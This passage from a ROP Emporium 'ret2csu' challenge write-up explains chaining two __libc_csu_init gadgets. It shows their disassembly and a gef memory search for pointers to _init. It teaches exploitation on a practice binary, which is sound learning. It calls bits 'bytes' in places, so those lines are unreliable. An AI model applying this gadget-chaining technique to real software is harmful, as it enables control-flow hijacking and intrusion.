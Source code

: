 However, as you can see by the comment, moving a 32-byte value into the lower
32-byte of a register actually zeros out the upper 32-bytes.

This means, that the value in %rdi gets corrupted, `ret2win` will not grant us
entry this way!

---

The two gadgets for `ret2csu`:

```
# -- gadget 2:
  400680:	4c 89 fa             	mov    %r15,%rdx
  400683:	4c 89 f6             	mov    %r14,%rsi
  400686:	44 89 ef             	mov    %r13d,%edi
  400689:	41 ff 14 dc          	call   *(%r12,%rbx,8)
# -- gadget 2 continues from here after the call, running right back into gadget 1!
  40068d:	48 83 c3 01          	add    $0x1,%rbx
  400691:	48 39 dd             	cmp    %rbx,%rbp
  400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
  400696:	48 83 c4 08          	add    $0x8,%rsp
# -- gadget 1:
  40069a:	5b                   	pop    %rbx
  40069b:	5d                   	pop    %rbp
  40069c:	41 5c                	pop    %r12
  40069e:	41 5d                	pop    %r13
  4006a0:	41 5e                	pop    %r14
  4006a2:	41 5f                	pop    %r15
  4006a4:	c3                   	ret
```

Since we can't `call` `ret2win` directly, we need to call something else.
Calling `_init` is a good idea, since this function won't mess up our `rbx`
register, and there already are "pointers" pointing to its address available.

To find those pointers, I used `gef` for GDB (I couldn't figure out how to do
the same search with vanilla GDB or gdb-peda ?):

```
disas _init
# Dump of assembler code for function _init:
#    0x00000000004004d0 <+0>:	sub    rsp,0x8
#    0x00000000004004d4 <+4>:	mov    rax,QWORD PTR [rip+0x200b1d]        # 0x600ff8
#    0x00000000004004db <+11>:	test   rax,rax
#    0x00000000004004de <+14>:	je     0x4004e2 <_init+18>
#    0x00000000004004e0 <+16>:	call   rax
#    0x00000000004004e2 <+18>:	add    rsp,0x8
#    0x00000000004004e6 <+22>:	ret
# End of assembler dump.

gef> search-pattern 0x00000000004004d0
# [+] Searching '\xd0\x04\x40\x00\x00\x00\x00\x00' in memory
# [+] In '/home/prince/code/rop-emporium/8-ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
#   0x400398 - 0x4003b8  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]" 
#   0x400e38 - 0x400e58  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]" 
# [+] In '/home/prince/code/rop-emporium/8-ret2csu/ret2csu'(0x600000-0x602000), permission=rw-
#   0x600398 - 0x6003b8  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]" 
#   0x600e38 - 0x600e58  →   "\xd0\x04\x40\x00\x00\x00\x00\x00[...]"
```
